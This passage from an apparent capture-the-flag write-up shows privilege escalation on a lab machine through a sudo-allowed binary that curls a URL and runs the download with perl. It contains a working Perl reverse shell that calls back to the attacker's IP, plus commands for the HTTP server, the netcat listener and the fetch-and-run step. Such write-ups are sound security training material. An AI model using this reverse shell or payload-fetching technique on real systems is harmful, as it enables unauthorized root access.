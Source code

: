 The second is `_Var1 = getuid(); if (_Var1 != 0)`, which checks that the process running that app has a uid of 0. I can run this with sudo so, check

The 3rd one is the really weirder one `iVar2 = strcmp(*(char **)(param_2 + 0x10),"lDnxUysaQn"); if (iVar2 != 0) {`, this is checking that the 2nd argument passed to the binary is `lDnxUysaQn`, we can do that, so check.

There's no specification about what the first argument needs to be. I try to get the binary to run without exiting immediately, and it works.
```bash
smorton@investigation:/var/www/uploads/1712775168$ sudo /usr/bin/binary test lDnxUysaQn
Running... 
Exiting...
```

Moving into the main function, it looks like it's running `curl`. Knowing this, the first argument is likely supposed to be an IP or url. I run the binary again and provide my attack box's IP, and I get a hit on my server!

![curl](Wed-10-2024_13-03.png)

I get a request on my server, and then the app throws a bunch of weird errors. Okay. Looking further in the function is this line `iVar2 = snprintf((char *)0x0,0,"perl ./%s",__s);`, which looks like `perl` is getting called and running something, likely the file that was just called with curl. I write a perl reverse shell and host it on my attack box. I start a netcat listener, and then call the perl shell with the binary, and boom! I catch a reverse shell as root!
```perl
# Perl Reverse Shell
use Socket;
$i="10.10.14.78";
$p=9002;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){
 open(STDIN,">&S");open(STDOUT,">&S");
 open(STDERR,">&S");exec("/bin/bash -i");
};
```
```bash
# Start python server
python3 -m http.server 80

# Start netcat listener
nc -lvnp

# On victim box, run the binary
smorton@investigation:/var/www/uploads/1712775168$ sudo /usr/bin/binary 10.10.14.78/shell.pl lDnxUysaQn
Running...
```
